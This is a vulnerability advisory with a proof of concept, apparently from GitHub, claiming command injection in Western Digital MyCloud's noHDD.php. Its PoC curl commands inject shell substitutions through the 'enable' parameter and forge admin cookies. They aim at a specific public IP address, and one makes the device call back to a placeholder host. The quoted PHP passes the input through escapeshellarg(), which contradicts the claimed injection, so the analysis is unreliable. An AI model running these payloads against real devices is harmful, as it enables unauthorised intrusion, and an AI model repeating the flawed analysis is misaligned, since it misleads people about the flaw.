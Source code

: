 ## Western Digital MyCloud Remote Command Injection in noHDD.php

#### The latest firmware download link:https://downloads.wdc.com/nas/My_Cloud_GLCR_2.42.115.bin

### Description

#### /web/php/noHDD.php

A remote command execution vulnerability exists in the "php/noHDD.php" script within the Western Digital MyCloud <=v2.42.115  web interface.

##### Remote Command Execution

The "php/noHDD.php" file is vulnerable to a remote command execution bug allowing for a logged in user to execute commands.The following code illustrates the vulnerability.

php/noHDD.php

```php
$cmd = $_POST['cmd'];
$enable = $_POST['enable'];	//enable or disable

switch ($cmd) {
	case "getDiskStatus":
		getDiskStatus();
		break;
	case "setSataPower":
		setSataPower($enable);
		break;
}
function setSataPower($enable)
{
	$state = "ok";
	if(file_exists("/tmp/system_ready"))
	{
		$setCmd = sprintf("sata_power.sh %s", escapeshellarg($enable));
		exec($setCmd,$retval);
	}
	else
	{
		$state = "ng";
	}

	if($enable=="enable")
	{
		sleep(30);
	}
	header('Content-type: text/xml');
	echo "<info><status>$state</status><cmd>$setCmd</cmd></info>";
}
```

![image-20250528160204779](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281602912.png)

```
In the above code, the "cmd" request variable (which can be from a get, post, or cookie) value is used to control the flow and is then stored in the local variable "$cmd". If the value supplied is "setSataPower", the function setSataPower() is called  with the "$enable" variable as an argument. The "$enable" variable contains the value from the user supplied "enable" request variable (which can be from a get, post, or cookie).  "$enable" is stored as the first argument to a sh script "sata_power.sh" in the $setCmd variable. The "$setCmd" variable is then used as an argument to the PHP exec() function, which executes the command.
```

The above does depend on the /tmp/system_ready file existing.

### **POC**

```
curl -i "http://213.60.33.2/web/php/noHDD.php?cmd=setSataPower&enable=%24(your command)" --cookie "isAdmin=1;username=admin"

curl -i "http://213.60.33.2/web/php/noHDD.php?cmd=setSataPower&enable=%24(curl%20http:%2F%2Fip:port)" --cookie "isAdmin=1;username=admin"
```



![image-20250528152634521](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281526698.png)
